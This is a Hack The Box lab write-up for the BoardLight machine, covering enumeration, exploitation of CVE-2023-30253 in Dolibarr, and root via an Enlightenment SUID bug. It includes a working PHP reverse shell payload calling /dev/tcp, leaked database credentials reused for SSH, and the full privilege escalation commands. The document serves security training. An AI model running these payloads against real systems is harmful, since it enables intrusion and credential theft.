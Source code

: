 ```yaml
---
clayout: ctf
title: BoardLight
date: 2025-06-18
image: /ctf/hack-the-box/machines/board-light/info-card.png
type: Hack The Box

ctf:
    - name: BoardLight
      link: https://app.hackthebox.com/machines/603
      thumbnail: /ctf/hack-the-box/machines/board-light/info-card.png
      pwned:
        - link: https://labs.hackthebox.com/achievement/machine/585215/603
          thumbnail: /ctf/hack-the-box/machines/board-light/pwned.png
---
```


## Enumeration

### Nmap Scan

We start by running an Nmap scan to identify open ports and associated services on the target host:

```bash
nmap -sC -sV -A -oN nmap.txt 10.10.11.11
```

**Results:**

```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 062d3b851059ff7366277f0eae03eaf4 (RSA)
|   256 5903dc52873a359934447433783135fb (ECDSA)
|_  256 ab1338e43ee024b46938a9638238ddf4 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
```

**Identified Services:**

* **SSH (Port 22):** OpenSSH 8.2p1
* **HTTP (Port 80):** Apache 2.4.41

## Web Enumeration

Accessing `http://10.10.11.11` presents a welcome page.

![Welcome Page](/ctf/hack-the-box/machines/board-light/welcome.png)

In the footer, the contact email `info@board.htb` is displayed, indicating the likely virtual host. We add it to our `/etc/hosts` file:

```bash
echo "10.10.11.11 board.htb" | sudo tee -a /etc/hosts
```

## Subdomain Enumeration

Using Gobuster, we enumerate virtual hosts:

```bash
gobuster vhost \
  -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt \
  -u "http://board.htb" \
  -t 20 \
  --append-domain
```

**Discovery:**

```bash
Found: crm.board.htb Status: 200 [Size: 6360]
```

We can add the discovered subdomain to `/etc/hosts`:

```bash
echo "10.10.11.11 crm.board.htb" | sudo tee -a /etc/hosts
```

Navigating to `http://crm.board.htb` reveals a login portal.

![Dolibarr Login](/ctf/hack-the-box/machines/board-light/login.png)

Using the default credentials `admin:admin`, we are able to login to the dashboard.

![Dolibarr Dashboard](/ctf/hack-the-box/machines/board-light/dashboard.png)

The dashboard identifies the service as **Dolibarr v17.0.0**.

## Vulnerability Identification

A known vulnerability, **CVE-2023-30253**, affects Dolibarr 17.0.0. Details are available in [this advisory](https://www.swascan.com/security-advisory-dolibarr-17-0-0/).

## Exploitation

Following the CVE-2023-30253 advisory:

1. We create a new website within Dolibarr.
2. We add a malicious PHP payload to a new page:

```php
<?PHP system("bash -c 'bash -i >& /dev/tcp/10.10.14.10/4444 0>&1'"); ?>
```

Accessing the page triggers a reverse shell as the `www-data` user:

```bash
www-data@boardlight:~/html/crm.board.htb/htdocs/public/website$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Exploring the `/etc/passwd` file reveals a user named `larissa`. The file `conf.php` in `/var/www/html/crm.board.htb/htdocs/conf/` contains database credentials:

```php
$dolibarr_main_db_user='dolibarrowner';
$dolibarr_main_db_pass='serverfun2$2023!!';
```

Using the password to attempt SSH access as `larissa` is successful:

```bash
ssh larissa@board.htb
larissa@boardlight:~$ id
uid=1000(larissa) gid=1000(larissa) groups=1000(larissa),4(adm)
```

The user flag is located at `/home/larissa/user.txt`.

## Privilege Escalation

Searching for SUID binaries:

```bash
find / -type f -perm -u=s 2>/dev/null
```

**Target Identified:**

* `/usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_sys`

We use the existing exploit ([Exploit-DB #51180](https://www.exploit-db.com/exploits/51180)) to gain root access:

```bash
mkdir -p net
mkdir -p /dev/../tmp/;\ /tmp/exploit
echo '/bin/sh' > /tmp/exploit
chmod +x /tmp/exploit
/usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_sys \
  /bin/mount -o noexec,nosuid,utf8,nodev,iocharset=utf8,utf8=0,utf8=1,uid=$(id -u), "/dev/../tmp/;/tmp/exploit" /tmp///net
```

The root flag is located at `/root/root.txt`.
